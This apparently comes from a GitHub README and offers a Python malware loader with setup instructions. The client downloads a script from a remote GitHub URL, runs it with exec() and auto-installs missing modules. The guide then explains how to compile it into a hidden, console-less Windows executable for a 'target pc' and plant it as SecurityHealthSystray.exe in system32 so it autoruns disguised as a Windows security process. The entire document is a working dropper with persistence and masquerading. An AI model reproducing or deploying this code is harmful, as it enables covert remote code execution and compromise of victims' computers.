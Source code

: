 # Client example
```python
import os
import sys
import time
import requests
import subprocess

def has_internet():
    try:
        response = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py")
        if response.status_code == 200 and "#don't delete" in response.text:
            return True, response.text
        else:
            return False, None
    except Exception as e:
        print(f"Error checking internet: {e}")
        return False, None

def execute_a_py(script_content):
    try:
        exec(script_content, globals())
    except Exception as e:
        if isinstance(e, ModuleNotFoundError):
            module_name = str(e).split("'")[1]
            print(module_name)
            install_module(module_name)
        else:
            print(f"Error executing downloaded script: {e}")
            raise

def install_module(module_name):
    try:
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
    except subprocess.CalledProcessError as e:
        print(f"Error installing module {module_name}: {e}")
        raise

connected, a_py_content = has_internet()

if connected:
    print("Downloading payload successful.")
    try:
        execute_a_py(a_py_content)
    except Exception as e:
        print(f"Error during execution: {e}")
else:
    print("Failed to download payload or invalid content.")
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)